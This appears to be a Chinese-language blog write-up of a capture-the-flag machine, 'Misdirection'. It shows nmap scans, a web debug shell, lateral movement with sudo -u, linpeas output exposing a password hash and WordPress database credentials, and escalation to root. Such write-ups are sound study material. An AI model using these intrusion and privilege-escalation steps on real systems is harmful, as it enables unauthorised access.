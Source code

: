 ```yaml
---
title: Misdirection # 从 Astro 的 title 转换
date: 2025/04/09 09:00:00 # 从 Astro 的 published 转换，并添加一个默认时间 (例如，早上9点)，使用您指定的日期格式
# updated: YYYY/MM/DD HH:MM:SS # 可选，如果文章有更新日期，可以添加此字段
description: Misdirection靶机渗透测试复盘 # 从 Astro 的 description 转换
cover: /images/Misdriction_cover.png # 从 Astro 的 image 转换，注意路径前添加 '/' 表示根目录
tags: # 从 Astro 的 tags 转换
  - CTF
  - 渗透测试
  - Linux提权
categories: # 从 Astro 的 category 转换，Hexo 常用 categories (复数)
  - Writeup
# 以下是 Redefine 主题特有或常用的可选字段，根据您的需求选择性添加
# author: 您的名字 # 可选，如需显示文章作者
# avatar: /img/your-avatar.png # 可选，如需显示作者头像
# password: your_secret_password # 文章加密，根据需要添加
# message: 本文已加密，请输入密码。 # 加密提示信息
# encrypt_abstract: 加密文章摘要。
# sticky: 1 # 置顶文章，数值越大优先级越高
# comment: true # 是否开启评论，默认开启
# toc: true # 是否显示目录，默认开启
# math: false # 是否开启数学公式，默认关闭
# mermaid: false # 是否开启 Mermaid 图表，默认关闭
---
```

## 靶机发现端口信息枚举

### 端口探测

```
# Nmap 7.94SVN scan initiated Wed Apr  9 02:38:49 2025 as: nmap -sT -p- --min-rate=10000 -oA ./nmapscan/ports 192.168.5.137
Nmap scan report for misdirection.lan (192.168.5.137)
Host is up (0.0016s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:4A:30:F8 (VMware)

```
### 服务探测
```
# Nmap 7.94SVN scan initiated Wed Apr  9 02:40:43 2025 as: nmap --script=vuln -p22,80,3306,8080 -sC -sV -oA ./nmapscan/vuln 192.168.5.137
Nmap scan report for misdirection.lan (192.168.5.137)
Host is up (0.00023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| ………………
|_    http://misdirection.lan:8080/manual/?C=N%3BO%3DA%27%20OR%20sqlspider
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
MAC Address: 00:0C:29:4A:30:F8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  9 02:50:40 2025 -- 1 IP address (1 host up) scanned in 596.69 seconds
```

很抽象的东西nmap报了一堆漏洞结果没有能用的

## web服务探测

### 先看80端口（实际上应该先看8080的）

80上来就是个静态界面，有个登录框，但是不知道为什么我打开80界面特别卡

![image-20250409164730699](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250409164730699.png)

啥都打不开，看网上别人写的wp也是有遇到这个问题的

dirsearch扫了一下目录没发现什么有意思的只有一个/admin但是打开显示“出于安全原因禁止访问”

### 再看8080端口

打开是阿帕奇的默认界面

dirsearch找到了好东西/debug界面是个shell，直接打个反弹来拿到www-data权限

![image-20250409165301663](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250409165301663.png)



## 漏洞利用

![image-20250409165353115](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250409165353115.png)

这个地方首先就是手动枚举了一下能想到的东西，计划任务，sudo -l之类的还顺带找了一下find / -perm -u=s -type f 2>/dev/null

都没有*”发现“*其实并非，我不知道sudo -u 用户名 命令可以以该用户权限来运行东西，成功错过了用户立足点的发现。

## 立足点获取

```bash
sudo -u brexit /bin/bash
```

获取到user立足点

![image-20250409165846719](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250409165846719.png)

```bash
brexit@misdirection:/var/www/html/debug$ cat /home/brexit/user.txt
cat /home/brexit/user.txt
404b9193154be7fbbc56d7534cb26339
```

## 机器信息收集

### 爆破两个密码无果

获取到这个之后又没思路了因为之前在www-data权限下面我已经翻了很多东西了。所以传了个linpeas*（实际上www-data就传上去了）*

linpeas发现了两个密码

```bash
 -> Extracting tables from /home/brexit/web2py/applications/init/databases/storage.sqlite (limit 20)
  --> Found interesting column names in auth_user (output limit 10)                                    
CREATE TABLE "auth_user"(                                                                                
    "id" INTEGER PRIMARY KEY AUTOINCREMENT,
    "first_name" CHAR(128),                
    "last_name" CHAR(128), 
    "email" CHAR(512),    
    "password" CHAR(512),
    "registration_key" CHAR(512),
    "reset_password_key" CHAR(512),
    "registration_id" CHAR(512),   
    "is_manager" CHAR(1)       
)
1, brexit, brexit, brexit@brexit.com, pbkdf2(1000,20,sha512)$b84155cf478dcabe$0b88e35739f7ec70bd553e759d00eb441b12bbfb, , , , T

```
这个直接发到hashcat来爆破用rockyou字典没任何结果，如果是brexit这个权限的话实际上爆破的意义不是很大，可惜我当时是www-data我还指望能通过这个提权
```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)                                                                                                                                                                  
-rwxr-xr-x 1 www-data www-data 2889 Jun  1  2019 /var/www/html/wordpress/wp-config.php                                                                                                                             
define( 'DB_NAME', 'wp_myblog' );                                                                                                                                                                                  
define( 'DB_USER', 'blog' );                                                                                                                                                                                       
define( 'DB_PASSWORD', 'abcdefghijklmnopqrstuv' );                                                                                                                                                                 
define( 'DB_HOST', 'localhost' );    
```

## 权限提升

### /etc/passwd可写

我当时不知道这个可以提权，甚至没有注意到linpeas的高亮

![image-20250409170644696](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250409170644696.png)

## ROOT

```bash
root@misdirection:/home/brexit# id
id
uid=0(root) gid=0(root) groups=0(root)
root@misdirection:/home/brexit# cat /root/root.txt
cat /root/root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
root@misdirection:/home/brexit# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:4a:30:f8 brd ff:ff:ff:ff:ff:ff
    inet 192.168.55.129/24 brd 192.168.55.255 scope global dynamic ens33
       valid_lft 1473sec preferred_lft 1473sec
    inet6 fe80::20c:29ff:fe4a:30f8/64 scope link 
       valid_lft forever preferred_lft forever
root@misdirection:/home/brexit# uname
uname
Linux
root@misdirection:/home/brexit# uname -a
uname -a
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

```

## 总结复盘

一台非常简单的机子被我给搞得很抽象。就像它的名字所写的一样全部都是misdirection。

缺点还是脚本使用不清楚、提权这块子还是有点知之甚少了，虽然看过红笔师傅的Linux提权精讲了但还是啥都不会

在这块推荐一下这个提权精讲视频看下来思路会顺上不少，不至于拿下立足点后不知道应该干些什么

[提权精讲](https://www.bilibili.com/video/BV1DV4y1U7bT/)
